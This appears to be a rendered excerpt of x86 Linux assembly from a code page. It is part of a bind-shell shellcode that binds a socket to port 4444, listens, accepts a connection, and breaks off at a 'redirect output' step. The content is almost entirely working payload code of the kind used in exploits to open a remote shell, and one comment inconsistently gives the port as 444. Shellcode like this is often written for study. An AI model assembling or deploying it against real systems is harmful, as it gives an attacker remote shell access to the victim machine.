 ```asm
        
        ; callid - bind (increase ebx from 1 to 2)
        inc ebx
        
        ; create struct {AF_INET, 444, INADDR_ANY}
        push edx            ; INADDR_ANY = 0x0
        push 0x5C11         ; Port 4444 htons(4444)
        push bx             ; AF_INET = 0x2
        mov ecx, esp        ; store pointer to struct
        
        ; create args for bind {sockfd, struct, sizeof(struct)}
        push 0x10           ; struct size = 0x10
        push ecx            ; pointer to struct
        push edi            ; sockfd stored from socket call
        
        mov ecx, esp
        int 0x80            ; bind(sockfd, sock_addr, sizeof(sock_addr))
        
        
        ;**********************;
        ; set socket to listen ;
        ;**********************;
        
        
        ; registers are prepared for args, so lets push before changing anything
        push eax            ; 0x0
        push edi            ; sockfd
        
        mov ecx, esp
        
        ; syscall - socketcall
        mov al, 0x66
        
        ; callid - listen (0x4)
        inc ebx
        inc ebx
        int 0x80            ; listen(sockfd, 0)
        
        
        ;*******************;
        ; accept connection ;
        ;*******************;
        
        
        ; eax is 0 from the return value of listen
        push eax            ; NULL
        push eax            ; NULL
        push edi            ; sockfd
        mov ecx, esp
        
        ; syscall - socketcall
        mov al, 0x66
        
        ; callid - accept
        inc ebx
        int 0x80            ; accept(sockfd, NULL, NULL);
        
        
        ;*****************;
        ; redirect output ;
        ;*****************;
        
        
```
